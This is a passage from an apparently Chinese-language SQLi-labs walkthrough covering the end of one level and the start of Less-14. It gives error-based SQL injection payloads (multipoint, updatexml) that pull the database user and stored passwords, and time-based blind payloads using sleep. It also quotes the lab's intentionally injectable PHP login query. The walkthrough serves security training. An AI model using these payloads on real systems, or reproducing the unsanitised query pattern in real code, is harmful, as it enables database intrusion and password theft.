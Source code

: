也可以使用报错

```
1') and multipoint((select * from(select * from(select user())a)b))#
```

```
1') and (updatexml(1,concat(0x7e,(select group_concat(password) from security.users),0x7e),1))#
```

<img src="图片\Snipaste_2023-01-22_19-56-29.png" alt="Snipaste_2023-01-22_19-56-29" style="zoom:67%;" />

也可以试试时间盲注，以下对比返回时间，我们的当前数据库为 security 长度为 8 ，以下第一个有明显的延时感觉

```
1') and multipoint((select * from(select * from(select 1 and if(length(database())>3,sleep(20),1))a)b))#
```

```
1') and multipoint((select * from(select * from(select 1 and if(length(database())>10,sleep(20),1))a)b))#
```

## Less-14

部分源码，POST单引号变形双注入,思路与上题一致，首先闭合 sql 语句，这里使用 " 闭合

```
$uname='"'.$uname.'"';
	$passwd='"'.$passwd.'"'; 
	@$sql="SELECT username, password FROM users WHERE username=$uname and password=$passwd LIMIT 0,1";
	$result=mysql_query($sql);
	$row = mysql_fetch_array($result);
```

